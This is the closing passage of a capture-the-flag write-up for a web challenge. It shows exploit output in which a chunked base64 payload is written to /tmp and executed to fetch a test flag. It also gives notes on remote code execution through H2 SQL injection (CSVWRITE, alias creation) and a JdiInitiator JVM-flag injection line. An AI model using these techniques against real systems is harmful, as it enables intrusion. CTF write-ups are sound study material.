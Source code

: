 ```
>>> Preparing request 7/10 (bytes 4080..4759) (Status 500 is OK)
Status:500

>>> Preparing request 8/10 (bytes 4760..5439) (Status 500 is OK)
Status:500

>>> Preparing request 9/10 (bytes 5440..6119) (Status 500 is OK)
Status:500

>>> Preparing request 10/10 (bytes 6120..6799) (Status 500 is OK)
Status:500
Status:500

----------------------------------------------------
The base64 payload was sent in chunks to /tmp/b64 and then executed.
Polling for flag in mysql
SEKAI{test_flag}
```

---

## 8. Final Notes

- You can read the challenge creator's write-up [here](https://github.com/project-sekai-ctf/sekaictf-2025/blob/main/web/hqli-me/solution/e.py). The official solution uses `CSVWRITE` to achieve stacked sqli to create an alias in H2 for RCE. I wasn't aware it was possible,
- The official solution also uses another method for RCE with `JdiInitiator` via Java code injection. I also came up with yet another way to do it beforehand with `OnError` and heap size JVM flags like so:
```
new jdk.jshell.execution.JdiInitiator(0, new list("-XX:OnError=id>/tmp/err.rce","-XX:OnOutOfMemoryError=id>/tmp/err2.rce","-XX:+CrashOnOutOfMemoryError","-Xmx3m","-XX:MaxMetaspaceSize=8m","-jar /app/target/hn-1.0-SNAPSHOT-jar-with-dependencies.jar"), new java.lang.String("jdk.jshell.execution.RemoteExecutionControl"), true, null, 8000, new java.util.HashMap(2))
```

Funnily enough it worked locally, but not on remote. I'm sure there's a more proper way to trigger it this way. There could be even more ways to RCE with `JdiInitiator`.  

XOXO,  
VXXDXX